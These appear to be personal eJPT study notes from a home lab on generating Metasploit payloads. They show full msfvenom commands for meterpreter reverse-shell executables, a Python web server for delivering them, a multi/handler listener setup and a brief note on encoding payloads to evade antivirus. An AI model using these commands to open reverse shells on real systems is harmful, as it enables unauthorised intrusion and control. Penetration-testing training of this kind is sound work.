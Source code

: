 msfvenom --list formatsFramework Executable Formats \[--format \<value>]===============================================Name----aspaspxaspx-exeaxis2dllducky-script-pshelfelf-soexeexe-onlyexe-serviceexe-smallhta-pshjarjsploop-vbsmachomsimsi-nouacosx-apppshpsh-cmdpsh-netpsh-reflectionpython-reflectionvbavba-exevba-pshvbswar​Framework Transform Formats \[--format \<value>]==============================================Name----base32base64bashccsharpdwdwordgogolanghexjavajs\_bejs\_lenimnimlangnumperlplpowershellps1pypythonrawrbrubyrustrustlangshvbapplicationvbscript

* Generate a Linux payload with `msfvenom`

**32bit payload:**msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -f elf > /home/kali/certs/ejpt/Linux\_Payloads/payloadx86**64bit payload:**msfvenom -p linux/x64/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -f elf > /home/kali/certs/ejpt/Linux\_Payloads/payloadx64

* 📌 _Platform and architecture are auto selected if not specified, based on the selected payload_

The transferring method onto the target system depends on the type of the social engineering technique.

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-5623729fc9d37d7c64ce35442c390f254debe1be%2Fimage-20230415192514206.png?alt=media" alt=""><figcaption></figcaption></figure>

* **`e.g.`** A simple web server can be set up on the attacker system to serve the payload files and a handler to receive the connection back from the target system

cd /home/kali/certs/ejpt/Windows\_Payloadssudo python -m http.server 8080

* To deal with a `meterpreter` payload, an appropriate listener is necessary to handle the reverse connection, the `multi/handler` Metasploit module in this case

msfconsole -quse multi/handlerset payload windows/meterpreter/reverse\_tcpset LHOST 192.168.31.128set LPORT 1234run

* Download the payload on the Windows 2008 system (in this case my home lab VM) from this link
  * `http://192.168.31.128:8080`
  * Run the `payloadx86.exe` payload on the target
* The `meterpreter` session on the attacker machine should be opened

Same example with the `linux/x86/meterpreter/reverse_tcp` Linux payload executed on the Kali VM.![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-a0dc06e0faab6ffdd48000e41ed434b71b6f763a%2Fimage-20230415201253314.png?alt=media)

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-ad022854e3f7b468ce17822415bef326f1f4c84e%2Fimage-20230415200856110.png?alt=media" alt=""><figcaption></figcaption></figure>

#### Encoding Payloads <a href="#encoding-payloads" id="encoding-payloads"></a>

Signature based Antivirus solutions can detect malicious files or executables. Older AV solutions can be evaded by **encoding** the payloads.

* ❗ _This kind of attack vector is outdated and hardly used today_.
* May work on legacy old O.S. like Windows 7 or older.

🗒️ Payload **Encoding** involves changing the payload shellcode _with the aim of changing the payload signature_.

* ​[Encoding will not always avoid detection](https://docs.rapid7.com/metasploit/encoded-payloads-bypassing-anti-virus)​
